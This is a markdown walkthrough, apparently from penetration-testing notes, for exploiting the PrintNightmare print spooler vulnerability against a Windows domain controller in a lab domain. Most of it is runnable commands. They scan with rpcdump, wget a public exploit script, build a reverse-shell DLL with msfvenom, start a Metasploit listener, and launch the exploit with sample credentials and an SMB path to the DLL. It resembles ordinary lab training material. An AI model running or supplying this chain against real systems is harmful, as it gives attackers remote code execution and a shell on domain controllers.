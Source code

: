 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /opt/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```


![exploit for the PrintNightmare](https://i.imgur.com/jCILEM9.png)


Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory


```powershell
$ msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=10.0.0.132 LPORT=443 -o reverse.dll

$ cp reverse.dll /tmp
```


![](https://i.imgur.com/MSwwJpV.png)
Next we will start a listener with `msfconsole`. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## Exploiting the PrintNightmare

Navigate to the tmp directory as that is where we have our `.py` file. Type in the following command to start the exploit. Please do change the **IP** address to your lab environment. 
**Note :** the first **IP** is the **Domain Controller-IP** and the second **IP** is the kali machine

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.0.149 '\\192.168.0.157\smb\reverse.dll'
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)
